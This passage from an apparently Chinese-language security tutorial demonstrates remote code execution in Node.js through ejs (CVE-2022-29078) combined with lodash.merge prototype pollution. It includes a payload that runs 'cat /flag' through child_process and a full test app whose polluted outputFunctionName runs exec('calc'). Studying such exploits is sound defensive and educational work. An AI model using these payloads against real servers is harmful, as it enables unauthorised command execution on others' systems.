```js
\u000areturn e => {return global.process.mainModule.constructor._load('child_process').execSync('cat /flag').toString()//"}
```

配合 ejs 模板引擎实现 RCE `CVE-2022-29078`
----------------------------------

Nodejs 的 ejs 模板引擎存在一个利用原型污染进行 RCE 的一个漏洞。但要实现 RCE，首先需要有原型链污染，这里我们暂且使用 lodash.merge 方法中的原型链污染漏洞。

### 测试

app.js

```js
var express = require('express');
var lodash = require('lodash');
var ejs = require('ejs');

var app = express();
//设置模板的位置与种类
app.set('views', __dirname);
app.set('views engine','ejs');

//对原型进行污染
var malicious_payload = '{"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require(\'child_process\').exec(\'calc\');var __tmp2"}}';
lodash.merge({}, JSON.parse(malicious_payload));

//进行渲染
app.get('/', function (req, res) {
    res.render ("index.ejs",{
        message: 'sp4c1ous'
    });
});

//设置http
var server = app.listen(8000, function () {

    var host = server.address().address
    var port = server.address().port

    console.log("应用实例，访问地址为 http://%s:%s", host, port)
});
```

index.ejs

```js

<html>
<head>
    <meta charset="utf-8">
    <title></title>
</head>
<body>

<h1><%= message%></h1>

</body>
</html>
```
